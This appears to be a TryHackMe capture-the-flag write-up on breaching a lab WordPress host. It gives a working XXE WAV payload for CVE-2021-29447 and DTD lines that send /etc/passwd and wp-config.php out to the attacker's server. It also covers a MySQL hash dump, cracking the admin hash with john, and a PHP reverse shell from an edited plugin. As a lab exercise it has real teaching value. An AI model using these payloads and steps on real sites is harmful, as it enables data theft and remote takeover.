

WordPress (TryHackMe) — Uploaded a crafted WAV to exploit CVE-2021-29447 (authenticated XXE), read `wp-config.php` to obtain DB credentials, cracked admin hash, and gained a reverse shell.

# **Recon**

Scan the ports and services.

```jsx
$ nmap -sC -sV 10.201.103.202                
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-16 04:13 +06
Nmap scan report for 10.201.103.202
Host is up (0.34s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f0:65:b8:42:b7:c3:ba:8e:fe:e4:3c:cd:57:f1:29:2e (RSA)
|   256 42:1e:1b:8f:19:38:99:2e:36:70:cf:0e:b6:31:92:14 (ECDSA)
|_  256 8e:89:43:de:5d:9b:99:66:c4:2a:93:17:f3:0e:e1:f4 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 5.6.2
|_http-title: Tryhackme &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.18 (Ubuntu)
3306/tcp open  mysql   MySQL 5.7.33-0ubuntu0.16.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.33-0ubuntu0.16.04.1
|   Thread ID: 151
|   Capabilities flags: 65535
|   Some Capabilities: LongColumnFlag, IgnoreSpaceBeforeParenthesis, SupportsCompression, Speaks41ProtocolOld, InteractiveClient, Speaks41ProtocolNew, LongPassword, DontAllowDatabaseTableColumn, SupportsLoadDataLocal, IgnoreSigpipes, SwitchToSSLAfterHandshake, Support41Auth, ODBCClient, SupportsTransactions, FoundRows, ConnectWithDatabase, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: 40Y\x0EwfEbM\x17<X&':72p,H
|_  Auth Plugin Name: mysql_native_password
| ssl-cert: Subject: commonName=MySQL_Server_5.7.33_Auto_Generated_Server_Certificate
| Not valid before: 2021-05-26T21:23:31
|_Not valid after:  2031-05-24T21:23:31
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.70 seconds
```

# **Exploiting CVE-2021-29447**

CVE-2021-29447 is an authenticated **XML External Entity (XXE)** vulnerability in WordPress’s Media Library that affects PHP 8. To demonstrate the vulnerability, I followed the published guidance to create a malicious WAV payload and uploaded it via the WordPress dashboard’s Media Library.

**Steps to reproduce (test environment):**

1. Log in to the WordPress admin panel using the following credentials:
    - **Username:** `test-corp`
    - **Password:** `test`
2. After logging in, navigate to **Media → Add New**.



1. Upload the crafted WAV file (the malicious payload) through the **Add New** interface to trigger the XXE behaviour.

# Create payload

This can be created as follows:

```jsx
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version='1.0'?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '''''http://IP:4444/shell.dtd'''''>%remote;%init;%trick;]>\x00' > payload.wav
```

```jsx
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://IP:4444/?p=%file;'>" >
```

```jsx
php -S 0.0.0.0:4444
```

Once uploaded, I was able to use this file to establish a connection back to my HTTP server and execute an XXE attack by including `/etc/passwd` without proper validation, thereby accessing sensitive data on the targeted system. For this purpose, I also created a custom file called `NAMEEVIL.dtd`, which connected to the server and provided content in encoded base64 form.


By decoding the `/etc/passwd` file, I was able to successfully exploit the vulnerability.

```jsx
   root:x:0:0:root:/root:/bin/bash
   daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
   bin:x:2:2:bin:/bin:/usr/sbin/nologin
   sys:x:3:3:sys:/dev:/usr/sbin/nologin
   sync:x:4:65534:sync:/bin:/bin/sync
   games:x:5:60:games:/usr/games:/usr/sbin/nologin
   man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
   lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
   mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
   news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
   uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
   proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
   www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
   backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
   list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
   irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
   gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
   nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
   systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
   systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
   systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
   systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
   syslog:x:104:108::/home/syslog:/bin/false
   _apt:x:105:65534::/nonexistent:/bin/false
   messagebus:x:106:110::/var/run/dbus:/bin/false
   uuidd:x:107:111::/run/uuidd:/bin/false
   czjqqkd:6REDACTEDczjqqkd:7:x:1000:1000:CVE-2021-29447,,,:/home/czjqqkd:8REDACTEDczjqqkd:9:/bin/bash
   sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
   mysql:x:109:117:MySQL Server,,,:/nonexistent:/bin/false

```

# **Exploiting Wordpress**

The next step is to enumerate the WordPress website on port 80 and obtain its `wp-config.php`. This file meets the requirement of the first objective in the current room.

- [x]  Use the vulnerability CVE-2021-29447 to read the wordpress configuration file.

By gaining access to the `wp-config.php` file, I can obtain sensitive data, such as database credentials, that can be used to further penetrate the system. I used same technique as follows by replacing the dtd file with

```jsx
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.17.44.22:4444/?p=%file;'>" >
```


Here is the decoded Base64 file

```jsx
 <?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'REDACTED' );

/** MySQL database username */
define( 'DB_USER', 'REDACTED' );

/** MySQL database password */
define( 'DB_PASSWORD', 'REDACTED' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

# **Gaining ADMIN account**

After obtaining the database credentials, I attempted to log in to `MySQL`, as our scanning process revealed that it was open on port 3306. Upon logging in, I discovered the presence of a `~~REDACTED~~` database that contained usernames and databases.

```jsx
mysql -h 10.201.103.202 -u thedarktangent -p --ssl=0
```

```jsx
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| wordpressdb2       |
+--------------------+
5 rows in set (0.338 sec)

MySQL [(none)]> use wordpressdb2;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [wordpressdb2]> show tables;
+--------------------------+
| Tables_in_wordpressdb2   |
+--------------------------+
| wptry_commentmeta        |
| wptry_comments           |
| wptry_links              |
| wptry_options            |
| wptry_postmeta           |
| wptry_posts              |
| wptry_term_relationships |
| wptry_term_taxonomy      |
| wptry_termmeta           |
| wptry_terms              |
| wptry_usermeta           |
| wptry_users              |
+--------------------------+
12 rows in set (0.335 sec)

MySQL [wordpressdb2]> select * from wptry_users;
+----+------------+------------------------------------+---------------+------------------------------+----------------------------------+---------------------+-----------------------------------------------+-------------+------------------+
| ID | user_login | user_pass                          | user_nicename | user_email                   | user_url                         | user_registered     | user_activation_key                           | user_status | display_name     |
+----+------------+------------------------------------+---------------+------------------------------+----------------------------------+---------------------+-----------------------------------------------+-------------+------------------+
|  1 | corp-001   | $P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1 | corp-001      | corp-001@fakemail.com        | http://192.168.85.131/wordpress2 | 2021-05-26 23:35:28 |                                               |           0 | corp-001         |
|  2 | test-corp  | $P$Bk3Zzr8rb.5dimh99TRE1krX8X85eR0 | test-corp     | test-corp@tryhackme.fakemail |                                  | 2021-05-26 23:47:32 | 1622072852:$P$BJWv.2ehT6U5Ndg/xmFlLobPl37Xno0 |           0 | Corporation Test |
+----+------------+------------------------------------+---------------+------------------------------+----------------------------------+---------------------+-----------------------------------------------+-------------+------------------+
2 rows in set (0.336 sec)

MySQL [wordpressdb2]> 
```

I quickly accessed `~~REDACTED~~` table and retrieved the administrator's username and password. This was crucial, as the current user did not have full access to other WordPress features. With the admin's credentials, I can now carry out more advanced attacks to gain shell.

```jsx
corp-001   | $P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1 | corp-001      | corp-001@fakemail.com
```

I investigated further to know about its hash-type and learnt that is was 'phpass', and I cracked it through john.

```jsx
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```jsx
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 SSE2 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
teddybear        (?)     
1g 0:00:00:00 DONE (2025-09-16 04:37) 5.000g/s 2400p/s 2400c/s 2400C/s jeffrey..marie
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed. 
```

username: `corp-001`

password: `teddybear`

# **Initial Foothold**

In order to gain shell, I changed the WordPress account to the `corp-001` admin account and began exploring the plugin feature. Initially, I attempted to perform an Arbitrary File Upload by downloading a vulnerable Gallery Plugin, but unfortunately, my attempts were failed.


then, I proceeded to deactivate that plugin and attempted to edit one of the php files with my custom PHP reverse shell code. By doing so, I aimed to establish a reverse shell on the system, granting me remote access and control.

```jsx
┌──(shohan㉿kali)-[~/Tryhackmy_rooms/Wordpress:CVE-2021-29447]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.17.44.22] from (UNKNOWN) [10.201.61.87] 42472
Linux ubuntu 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 16:07:05 up 6 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cd /home
$ ls
stux
$ cd stux
$ ls
flag
$ ls -la
total 44
drwxr-xr-x 5 stux stux 4096 May 26  2021 .
drwxr-xr-x 3 root root 4096 May 26  2021 ..
-rw------- 1 root root 3359 May 26  2021 .bash_history
-rw-r--r-- 1 stux stux  220 May 26  2021 .bash_logout
-rw-r--r-- 1 stux stux 3771 May 26  2021 .bashrc
drwx------ 2 stux stux 4096 May 26  2021 .cache
-rw------- 1 stux stux  131 May 26  2021 .mysql_history
drwxrwxr-x 2 stux stux 4096 May 26  2021 .nano
-rw-r--r-- 1 stux stux  655 May 26  2021 .profile
-rw-r--r-- 1 stux stux    0 May 26  2021 .sudo_as_admin_successful
-rw-r--r-- 1 root root  183 May 26  2021 .wget-hsts
drwxrwxr-x 2 stux stux 4096 May 26  2021 flag
$ cd flag
$ ls
flag.txt
$ cat flag.txt
thm{REDACTED}
$ 
```
